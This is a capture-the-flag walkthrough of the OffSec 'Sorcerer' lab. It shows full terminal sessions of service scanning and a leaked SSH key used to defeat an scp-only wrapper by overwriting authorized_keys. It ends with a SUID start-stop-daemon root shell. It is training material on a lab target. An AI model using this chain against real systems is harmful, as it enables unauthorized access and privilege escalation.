


# Sorcerer

- [Machine information](#machine-information)
- [Solution](#solution)
- [References](#references)

## Machine information

```text
Type: PG Practice
Difficulty: Intermediate
Community Rating: Intermediate
Meta Tags: Walkthrough, Walk-through, Write-up, Writeup
OS: Linux
Points: 15
Number of Flags: 2
Lab Description:
This lab demonstrates exploiting an SCP wrapper script to gain a reverse shell on the target system. 
Learners will escalate privileges by leveraging a misconfigured SUID binary (start-stop-daemon) to 
achieve root access. This lab emphasizes exploiting SSH configurations, modifying scripts for 
persistence, and utilizing SUID binaries for privilege escalation.
Released: 2 Nov 2020
```

Machine link: [https://portal.offsec.com/machine/sorcerer-472/overview/details](https://portal.offsec.com/machine/sorcerer-472/overview/details)

## Solution

### Scan for services with nmap

We start by scanning the machine on all ports with `nmap` including service info and default scripts

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Sorcerer]
└─$ export TARGET_IP=192.168.236.100

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Sorcerer]
└─$ sudo nmap -sC -sV -p- $TARGET_IP                
[sudo] password for kali: 
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-09 08:25 +0200
Nmap scan report for 192.168.236.100
Host is up (0.036s latency).
Not shown: 65525 closed tcp ports (reset)
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 81:2a:42:24:b5:90:a1:ce:9b:ac:e7:4e:1d:6d:b4:c6 (RSA)
|   256 d0:73:2a:05:52:7f:89:09:37:76:e3:56:c8:ab:20:99 (ECDSA)
|_  256 3a:2d:de:33:b0:1e:f2:35:0f:8d:c8:d7:8f:f9:e0:0e (ED25519)
80/tcp    open  http     nginx
|_http-title: Site doesn't have a title (text/html).
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100003  3           2049/udp   nfs
|   100003  3,4         2049/tcp   nfs
|   100005  1,2,3      34625/tcp   mountd
|   100005  1,2,3      39117/udp   mountd
|   100021  1,3,4      36944/udp   nlockmgr
|   100021  1,3,4      45551/tcp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|_  100227  3           2049/udp   nfs_acl
2049/tcp  open  nfs      3-4 (RPC #100003)
7742/tcp  open  http     nginx
|_http-title: SORCERER
8080/tcp  open  http     Apache Tomcat 7.0.4
|_http-title: Apache Tomcat/7.0.4
|_http-favicon: Apache Tomcat
34625/tcp open  mountd   1-3 (RPC #100005)
43449/tcp open  mountd   1-3 (RPC #100005)
45551/tcp open  nlockmgr 1-4 (RPC #100021)
49951/tcp open  mountd   1-3 (RPC #100005)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.23 seconds
```

We have five TCP-services running and available:

- OpenSSH 7.9p1 Debian 10+deb10u2 on port 22
- nginx on port 80, 7742
- RPC port mapper on port 111
- NFS on port 2049
- Apache Tomcat 7.0.4 on port 8080

We also do an UDP-scan of the top 100 ports

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Sorcerer]
└─$ sudo nmap -sU --top-ports 100 -sV -sC $TARGET_IP
[sudo] password for kali: 
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-09 08:26 +0200
Nmap scan report for 192.168.236.100
Host is up (0.035s latency).
Not shown: 98 closed udp ports (port-unreach)
PORT     STATE SERVICE VERSION
111/udp  open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100003  3           2049/udp   nfs
|   100003  3,4         2049/tcp   nfs
|   100005  1,2,3      34625/tcp   mountd
|   100005  1,2,3      39117/udp   mountd
|   100021  1,3,4      36944/udp   nlockmgr
|   100021  1,3,4      45551/tcp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|_  100227  3           2049/udp   nfs_acl
2049/udp open  nfs     3 (RPC #100003)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 108.07 seconds
```

were we again find RPC port mapper on port 111 and NFS on port 2049.

### Check the web site

Accessing the website on port 80 we get a `404 Not Found` error message.

On port 7742 we find a `Control Panel` with login


We are unable to login with the credentials such as `admin:admin`, `admin:password`, etc.

Checking the HTML-source is looks like the login functionality always returns `Invalid Logon`!?

```html
<!DOCTYPE html>
<html>
<title>SORCERER</title>
<head>
<!--- snip ---->
</head>

<script>
function ifLoginAdminFalse() {
    alert("Invalid Logon");
}
</script>

<h1 style="font-family:verdana;">Control Panel</h1>

<div class="container">
    <label for="username" style="font-family:verdana;"><b>Username</b></label>
    <input type="text" placeholder="Enter Username" name="username" required>
    <label for="password" style="font-family:verdana;"><b>Password</b></label>
    <input type="password" placeholder="Enter Password" name="password" required>
    <button onclick="ifLoginAdminFalse()" type="submit">Login</button>
</div>
</center>
</html>
```

On port 8080 we confirm a Tomcat installation



A scan with `whatweb` gives us the following information

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Sorcerer]
└─$ whatweb -a3 http://$TARGET_IP
http://192.168.236.100 [200 OK] Country[RESERVED][ZZ], HTTPServer[nginx], IP[192.168.236.100], nginx

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Sorcerer]
└─$ whatweb -a3 http://$TARGET_IP:7742
http://192.168.236.100:7742 [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[nginx], IP[192.168.236.100], PasswordField[password], Script, Title[SORCERER], nginx

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Sorcerer]
└─$ whatweb -a3 http://$TARGET_IP:8080
http://192.168.236.100:8080 [200 OK] Country[RESERVED][ZZ], HTML5, IP[192.168.236.100], Title[Apache Tomcat/7.0.4]
```

Scanning for additional interesting files and directories with `gobuster` we get

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Sorcerer]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -r -t 32 -x php,txt,html -u http://$TARGET_IP
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.236.100
[+] Method:                  GET
[+] Threads:                 32
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,html
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 14]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Sorcerer]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -r -t 32 -x php,txt,html -u http://$TARGET_IP:7742
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.236.100:7742
[+] Method:                  GET
[+] Threads:                 32
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,html,php
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 1219]
/default              (Status: 200) [Size: 14]
/zipfiles             (Status: 200) [Size: 626]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Sorcerer]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -r -t 32 -x php,txt,html -u http://$TARGET_IP:8080
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.236.100:8080
[+] Method:                  GET
[+] Threads:                 32
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,html
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/400.html             (Status: 200) [Size: 738]
/500.html             (Status: 200) [Size: 716]
/manager              (Status: 403) [Size: 3446]
/http%3A%2F%2Fwww     (Status: 400) [Size: 804]
/http%3A%2F%2Fwww.txt (Status: 400) [Size: 804]
/http%3A%2F%2Fwww.html (Status: 400) [Size: 804]
/http%3A%2F%2Fwww.php (Status: 400) [Size: 804]
/http%3A%2F%2Fyoutube (Status: 400) [Size: 804]
/http%3A%2F%2Fyoutube.php (Status: 400) [Size: 804]
/http%3A%2F%2Fyoutube.txt (Status: 400) [Size: 804]
/http%3A%2F%2Fyoutube.html (Status: 400) [Size: 804]
/http%3A%2F%2Fblogs.php (Status: 400) [Size: 804]
/http%3A%2F%2Fblogs   (Status: 400) [Size: 804]
/http%3A%2F%2Fblogs.txt (Status: 400) [Size: 804]
/http%3A%2F%2Fblogs.html (Status: 400) [Size: 804]
/http%3A%2F%2Fblog    (Status: 400) [Size: 804]
/http%3A%2F%2Fblog.php (Status: 400) [Size: 804]
/http%3A%2F%2Fblog.html (Status: 400) [Size: 804]
/http%3A%2F%2Fblog.txt (Status: 400) [Size: 804]
/**http%3A%2F%2Fwww   (Status: 400) [Size: 804]
/**http%3A%2F%2Fwww.php (Status: 400) [Size: 804]
/**http%3A%2F%2Fwww.txt (Status: 400) [Size: 804]
/**http%3A%2F%2Fwww.html (Status: 400) [Size: 804]
/RELEASE-NOTES.txt    (Status: 200) [Size: 6898]
/External%5CX-News.php (Status: 400) [Size: 795]
/External%5CX-News.txt (Status: 400) [Size: 795]
/External%5CX-News    (Status: 400) [Size: 795]
/External%5CX-News.html (Status: 400) [Size: 795]
/http%3A%2F%2Fcommunity (Status: 400) [Size: 804]
/http%3A%2F%2Fcommunity.php (Status: 400) [Size: 804]
/http%3A%2F%2Fcommunity.html (Status: 400) [Size: 804]
/http%3A%2F%2Fcommunity.txt (Status: 400) [Size: 804]
/http%3A%2F%2Fradar   (Status: 400) [Size: 804]
/http%3A%2F%2Fradar.php (Status: 400) [Size: 804]
/http%3A%2F%2Fradar.txt (Status: 400) [Size: 804]
/http%3A%2F%2Fradar.html (Status: 400) [Size: 804]
/http%3A%2F%2Fjeremiahgrossman (Status: 400) [Size: 804]
/http%3A%2F%2Fjeremiahgrossman.txt (Status: 400) [Size: 804]
/http%3A%2F%2Fjeremiahgrossman.php (Status: 400) [Size: 804]
/http%3A%2F%2Fjeremiahgrossman.html (Status: 400) [Size: 804]
/http%3A%2F%2Fweblog.html (Status: 400) [Size: 804]
/http%3A%2F%2Fweblog  (Status: 400) [Size: 804]
/http%3A%2F%2Fweblog.php (Status: 400) [Size: 804]
/http%3A%2F%2Fweblog.txt (Status: 400) [Size: 804]
/http%3A%2F%2Fswik    (Status: 400) [Size: 804]
/http%3A%2F%2Fswik.txt (Status: 400) [Size: 804]
/http%3A%2F%2Fswik.php (Status: 400) [Size: 804]
/http%3A%2F%2Fswik.html (Status: 400) [Size: 804]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```

On `http://192.168.236.100:7742/zipfiles/` we find that directory listing is enabled and we can see four zip-files


which we download

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Sorcerer]
└─$ wget -q http://192.168.236.100:7742/zipfiles/francis.zip

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Sorcerer]
└─$ wget -q http://192.168.236.100:7742/zipfiles/max.zip

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Sorcerer]
└─$ wget -q http://192.168.236.100:7742/zipfiles/miriam.zip 

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Sorcerer]
└─$ wget -q http://192.168.236.100:7742/zipfiles/sofia.zip  
```

Trying to access `http://192.168.236.100:8080/manager/` we get an `Access Denied` error message



### NFS Enumeration

Next, we enumerate the NFS-service

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Sorcerer]
└─$ nmap -v -p 111 --script nfs-* $TARGET_IP
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-09 08:39 +0200
NSE: Loaded 3 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 08:39
Completed NSE at 08:39, 0.00s elapsed
Initiating Ping Scan at 08:39
Scanning 192.168.236.100 [4 ports]
Completed Ping Scan at 08:39, 0.06s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 08:39
Completed Parallel DNS resolution of 1 host. at 08:39, 0.50s elapsed
Initiating SYN Stealth Scan at 08:39
Scanning 192.168.236.100 [1 port]
Discovered open port 111/tcp on 192.168.236.100
Completed SYN Stealth Scan at 08:39, 0.05s elapsed (1 total ports)
NSE: Script scanning 192.168.236.100.
Initiating NSE at 08:39
Completed NSE at 08:39, 0.34s elapsed
Nmap scan report for 192.168.236.100
Host is up (0.033s latency).

PORT    STATE SERVICE
111/tcp open  rpcbind
|_nfs-showmount: No NFS mounts available

NSE: Script Post-scanning.
Initiating NSE at 08:39
Completed NSE at 08:39, 0.00s elapsed
Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 1.17 seconds
           Raw packets sent: 5 (196B) | Rcvd: 94 (16.584KB)
```

but find nothing.

### Analyse the zip files

Now we go back to the zip-files and check their contents

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Sorcerer]
└─$ unzip francis.zip 
Archive:  francis.zip
   creating: home/francis/
  inflating: home/francis/.bash_logout  
  inflating: home/francis/.profile   
  inflating: home/francis/.bashrc    

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Sorcerer]
└─$ unzip max.zip    
Archive:  max.zip
   creating: home/max/
  inflating: home/max/.bash_logout   
  inflating: home/max/.profile       
   creating: home/max/.ssh/
  inflating: home/max/.ssh/id_rsa.pub  
  inflating: home/max/.ssh/authorized_keys  
  inflating: home/max/.ssh/id_rsa    
  inflating: home/max/tomcat-users.xml.bak  
  inflating: home/max/.bashrc        
  inflating: home/max/scp_wrapper.sh  

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Sorcerer]
└─$ unzip miriam.zip 
Archive:  miriam.zip
   creating: home/miriam/
  inflating: home/miriam/.bash_logout  
  inflating: home/miriam/.profile    
  inflating: home/miriam/.bashrc     

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Sorcerer]
└─$ unzip sofia.zip 
Archive:  sofia.zip
   creating: home/sofia/
  inflating: home/sofia/.bash_logout  
  inflating: home/sofia/.profile     
  inflating: home/sofia/.bashrc 
```

The most interesting find is the private SSH key for the user `max`.

### Try to login as max with SSH

Let's check if we can login with it

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Sorcerer]
└─$ cp home/max/.ssh/id_rsa ./id_rsa_max

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Sorcerer]
└─$ ssh -i id_rsa_max max@$TARGET_IP                          
The authenticity of host '192.168.236.100 (192.168.236.100)' can't be established.
ED25519 key fingerprint is SHA256:VS30806A83YR6y/jbQ1fv89VM1FjmXYbb9zmKkJ5N+4.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.236.100' (ED25519) to the list of known hosts.
PTY allocation request failed on channel 0
ACCESS DENIED.
usage: scp [-346BCpqrv] [-c cipher] [-F ssh_config] [-i identity_file]
           [-l limit] [-o ssh_option] [-P port] [-S program] source ... target
Connection to 192.168.236.100 closed.
```

Nope, we were denied. Seems like only `scp` is allowed.

We go back to the files to investigate

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Sorcerer]
└─$ cd home/max/.ssh 

┌──(kali㉿kali)-[/mnt/…/Sorcerer/home/max/.ssh]
└─$ ls -la
total 6
drwxrwxrwx 1 root root    0 Sep 24  2020 .
drwxrwxrwx 1 root root    0 Sep 24  2020 ..
-rwxrwxrwx 1 root root  836 Sep 24  2020 authorized_keys
-rwxrwxrwx 1 root root 3381 Sep 24  2020 id_rsa
-rwxrwxrwx 1 root root  738 Sep 24  2020 id_rsa.pub

┌──(kali㉿kali)-[/mnt/…/Sorcerer/home/max/.ssh]
└─$ cat authorized_keys 
no-port-forwarding,no-X11-forwarding,no-agent-forwarding,no-pty,command="/home/max/scp_wrapper.sh" ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQC39t1AvYVZKohnLz6x92nX2cuwMyuKs0qUMW9Pa+zpZk2hb/ZsULBKQgFuITVtahJispqfRY+kqF8RK6Tr0vDcCP4jbCjadJ3mfY+G5rsLbGfek3vb9drJkJ0+lBm8/OEhThwWFjkdas2oBJF8xSg4dxS6jC8wsn7lB+L3xSS7A84RnhXXQGGhjGNfG6epPB83yTV5awDQZfupYCAR/f5jrxzI26jM44KsNqb01pyJlFl+KgOs1pCvXviZi0RgCfKeYq56Qo6Z0z29QvCuQ16wr0x42ICTUuR+Tkv8jexROrLzc+AEk+cBbb/WE/bVbSKsrK3xB9Bl9V9uRJT/faMENIypZceiiEBGwAcT5lW551wqctwi2HwIuv12yyLswYv7uSvRQ1KU/j0K4weZOqDOg1U4+klGi1is3HsFKrUZsQUu3Lg5tHkXWthgtlROda2Q33jX3WsV8P3Z4+idriTMvJnt2NwCDEoxpi/HX/2p0G5Pdga1+gXeXFc88+DZyGVg4yW1cdSR/+jTKmnluC8BGk+hokfGbX3fq9BIeiFebGnIy+py1e4k8qtWTLuGjbhIkPS3PJrhgSzw2o6IXombpeWCMnAXPgZ/x/49OKpkHogQUAoSNwgfdhgmzLz06MVgT+ap0To7VsTvBJYdQiv9kmVXtQQoUCAX0b84fazWQQ== max@sorcerer  
```

The `scp_wrapper.sh` script was included in the zip-file and contains

```bash
┌──(kali㉿kali)-[/mnt/…/Intermediate/Sorcerer/home/max]
└─$ cat scp_wrapper.sh     
#!/bin/bash
case $SSH_ORIGINAL_COMMAND in
 'scp'*)
    $SSH_ORIGINAL_COMMAND
    ;;
 *)
    echo "ACCESS DENIED."
    scp
    ;;
esac   
```

But can we still use `scp`? Let's check for the user flag

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Sorcerer]
└─$ scp -i id_rsa_max max@$TARGET_IP:/home/max/local.txt ./local.txt     
scp: Received message too long 1094927173
scp: Ensure the remote shell produces no output for non-interactive sessions.
```

Hhm, that didn't work! Checking the manpage of `scp` we find a possible solution, the `-O` parameter

```text
       -O      Use the legacy SCP protocol for file transfers instead of
               the SFTP protocol.  Forcing the use of the SCP protocol
               may be necessary for servers that do not implement SFTP,
               for backwards-compatibility for particular filename
               wildcard patterns and for expanding paths with a ‘~’
               prefix for older SFTP servers.
```

Another try

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Sorcerer]
└─$ scp -O -i id_rsa_max max@$TARGET_IP:/home/max/local.txt ./local.txt
scp: /home/max/local.txt: No such file or directory
```

Works better, but the user flag is located else where...

### Login as max with SSH - take 2

Can we modify the `authorized_keys` to exclude the restrictions

```bash
┌──(kali㉿kali)-[/mnt/…/Sorcerer/home/max/.ssh]
└─$ cp authorized_keys authorized_keys_fixed

┌──(kali㉿kali)-[/mnt/…/Sorcerer/home/max/.ssh]
└─$ vi authorized_keys_fixed 

┌──(kali㉿kali)-[/mnt/…/Sorcerer/home/max/.ssh]
└─$ cat authorized_keys                     
no-port-forwarding,no-X11-forwarding,no-agent-forwarding,no-pty,command="/home/max/scp_wrapper.sh" ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQC39t1AvYVZKohnLz6x92nX2cuwMyuKs0qUMW9Pa+zpZk2hb/ZsULBKQgFuITVtahJispqfRY+kqF8RK6Tr0vDcCP4jbCjadJ3mfY+G5rsLbGfek3vb9drJkJ0+lBm8/OEhThwWFjkdas2oBJF8xSg4dxS6jC8wsn7lB+L3xSS7A84RnhXXQGGhjGNfG6epPB83yTV5awDQZfupYCAR/f5jrxzI26jM44KsNqb01pyJlFl+KgOs1pCvXviZi0RgCfKeYq56Qo6Z0z29QvCuQ16wr0x42ICTUuR+Tkv8jexROrLzc+AEk+cBbb/WE/bVbSKsrK3xB9Bl9V9uRJT/faMENIypZceiiEBGwAcT5lW551wqctwi2HwIuv12yyLswYv7uSvRQ1KU/j0K4weZOqDOg1U4+klGi1is3HsFKrUZsQUu3Lg5tHkXWthgtlROda2Q33jX3WsV8P3Z4+idriTMvJnt2NwCDEoxpi/HX/2p0G5Pdga1+gXeXFc88+DZyGVg4yW1cdSR/+jTKmnluC8BGk+hokfGbX3fq9BIeiFebGnIy+py1e4k8qtWTLuGjbhIkPS3PJrhgSzw2o6IXombpeWCMnAXPgZ/x/49OKpkHogQUAoSNwgfdhgmzLz06MVgT+ap0To7VsTvBJYdQiv9kmVXtQQoUCAX0b84fazWQQ== max@sorcerer                                                                                                                                                                                                  
┌──(kali㉿kali)-[/mnt/…/Sorcerer/home/max/.ssh]
└─$ 
```

Upload the file and then login?

```bash
┌──(kali㉿kali)-[/mnt/…/Sorcerer/home/max/.ssh]
└─$ scp -O -i id_rsa authorized_keys_fixed max@$TARGET_IP:/home/max/.ssh/authorized_keys 
authorized_keys_fixed                                                                                                                                           100%  738    19.6KB/s   00:00    

┌──(kali㉿kali)-[/mnt/…/Sorcerer/home/max/.ssh]
└─$ ssh -i id_rsa max@$TARGET_IP                                                       
max@sorcerer:~$ id
uid=1003(max) gid=1003(max) groups=1003(max)
max@sorcerer:~$ 
```

Success!

### Get the user flag

Next, we start searching for the user flag

```bash
max@sorcerer:~$ find /home -type f -name local.txt 2>/dev/null
/home/dennis/local.txt
max@sorcerer:~$ cat /home/dennis/local.txt
1<REDACTED>c
max@sorcerer:~$ 
```

### Enumeration for privesc

Next, we enumerate the system for privilege escalation opportunities.

Checking for SUID binaries we find `start-stop-daemon` that stands out

```bash
max@sorcerer:~$ find / -type f -perm /4000 -ls 2>/dev/null
   166328    116 -rwsr-xr-x   1 root     root       114784 Jun 24  2020 /usr/sbin/mount.nfs
   131537     44 -rwsr-xr-x   1 root     root        44200 Jun  3  2019 /usr/sbin/start-stop-daemon
   131139     64 -rwsr-xr-x   1 root     root        63736 Jul 27  2018 /usr/bin/passwd
   164794     36 -rwsr-xr-x   1 root     root        34896 Apr 22  2020 /usr/bin/fusermount
   134752     64 -rwsr-xr-x   1 root     root        63568 Jan 10  2019 /usr/bin/su
   135086     52 -rwsr-xr-x   1 root     root        51280 Jan 10  2019 /usr/bin/mount
   166426     16 -rwsr-xr-x   1 root     root        14664 Oct  9  2019 /usr/bin/vmware-user-suid-wrapper
   134605     44 -rwsr-xr-x   1 root     root        44440 Jul 27  2018 /usr/bin/newgrp
   131134     56 -rwsr-xr-x   1 root     root        54096 Jul 27  2018 /usr/bin/chfn
   135088     36 -rwsr-xr-x   1 root     root        34888 Jan 10  2019 /usr/bin/umount
   131137     84 -rwsr-xr-x   1 root     root        84016 Jul 27  2018 /usr/bin/gpasswd
   131135     44 -rwsr-xr-x   1 root     root        44528 Jul 27  2018 /usr/bin/chsh
      938     12 -rwsr-xr-x   1 root     root        10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
   152206    428 -rwsr-xr-x   1 root     root       436552 Jan 31  2020 /usr/lib/openssh/ssh-keysign
   148810     52 -rwsr-xr--   1 root     messagebus    51184 Jul  5  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

As usual, [GTFOBins](https://gtfobins.org/gtfobins/start-stop-daemon/) show us how to proceed

```bash
max@sorcerer:~$ start-stop-daemon -S -x /bin/sh -- -p
-bash: start-stop-daemon: command not found
max@sorcerer:~$ /usr/sbin/start-stop-daemon -S -x /bin/sh -- -p
# id
uid=1003(max) gid=1003(max) euid=0(root) groups=1003(max)
# 
```

### Get the root flag

Finally we can get the root flag

```bash
# cat /root/proof.txt
d<REDACTED>c
# 
```

For additional information, please see the references below.

## References

- [Apache Tomcat - Wikipedia](https://en.wikipedia.org/wiki/Apache_Tomcat)
- [export - Linux manual page](https://www.man7.org/linux/man-pages/man1/export.1p.html)
- [find - Linux manual page](https://man7.org/linux/man-pages/man1/find.1.html)
- [Gobuster - GitHub](https://github.com/OJ/gobuster/)
- [Gobuster - Kali Tools](https://www.kali.org/tools/gobuster/)
- [id - Linux manual page](https://man7.org/linux/man-pages/man1/id.1.html)
- [nc - Linux manual page](https://linux.die.net/man/1/nc)
- [netcat - Wikipedia](https://en.wikipedia.org/wiki/Netcat)
- [Network File System - Wikipedia](https://en.wikipedia.org/wiki/Network_File_System)
- [Nginx - Wikipedia](https://en.wikipedia.org/wiki/Nginx)
- [nmap - Homepage](https://nmap.org/)
- [nmap - Linux manual page](https://linux.die.net/man/1/nmap)
- [nmap - Manual page](https://nmap.org/book/man.html)
- [OpenSSH  - Wikipedia](https://en.wikipedia.org/wiki/OpenSSH)
- [Portmap - Wikipedia](https://en.wikipedia.org/wiki/Portmap)
- [Remote procedure call - Wikipedia](https://en.wikipedia.org/wiki/Remote_procedure_call)
- [scp - Linux manual page](https://man7.org/linux/man-pages/man1/scp.1.html)
- [Secure Shell - Wikipedia](https://en.wikipedia.org/wiki/Secure_Shell)
- [Setuid - Wikipedia](https://en.wikipedia.org/wiki/Setuid)
- [ssh - Linux manual page](https://man7.org/linux/man-pages/man1/ssh.1.html)
- [start-stop-daemon - GTFOBins](https://gtfobins.org/gtfobins/start-stop-daemon/)
- [sudo - Linux manual page](https://man7.org/linux/man-pages/man8/sudo.8.html)
- [sudo - Wikipedia](https://en.wikipedia.org/wiki/Sudo)
- [unzip - Linux manual page](https://linux.die.net/man/1/unzip)
- [wget - Linux manual page](https://man7.org/linux/man-pages/man1/wget.1.html)
- [WhatWeb - Homepage](https://morningstarsecurity.com/research/whatweb)
- [WhatWeb - Kali Tools](https://www.kali.org/tools/whatweb/)
